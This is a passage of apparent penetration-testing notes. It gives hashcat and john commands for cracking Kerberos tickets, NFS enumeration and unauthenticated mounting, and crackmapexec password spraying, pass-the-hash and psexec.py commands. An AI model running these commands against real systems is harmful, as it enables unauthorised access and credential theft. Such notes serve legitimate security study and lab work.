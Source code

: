 > Cracking with dictionary of passwords:

`hashcat -m 13100 --force <TGSs_file><passwords_file>`

`john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>`

https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats

From https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a

***

**NFS**

_ENUMERATION:_

> USING NMAP

Locate scripts: `ls -1 /usr/share/nmap/scripts/nfs*` We can run all three of these scripts using the wildcard character `*` in the script name: `nmap -p 111 --script nfs* 10.11.1.72`

> SHOWMOUNT

To know which folder has the server available to mount, you an ask it using:

`showmount -e <IP>`

Then mount it using:

`sudo mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock`

You should specify to **use version 2** because it doesn't have any authentication or authorization.

_Example:_

`mkdir /mnt/new_back`

`mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock`

***

**ASREP ROASTING**

Tuesday, August 9, 2022 11:26 PM

***

**PASSWORD SPRAYING**

_Crackmapexec_

`crackmapexec smb <IP> -u users.txt -p passwords.txt` `crackmapexec smb <IP> -u <username> -H hashes.txt`

\*Pass the password attack.

`crackmapexec smb 192.168.51.0/24 -u <username> -d <domain.local> -p <password>`

_pass the hash_ `crackmapexec smb <ip or range> -u "username" -H <hash> --local-auth`

if we have the password we can try psexec.py `psexec.py Domainname/username:Password@<ip>`

_KERBRUTE_
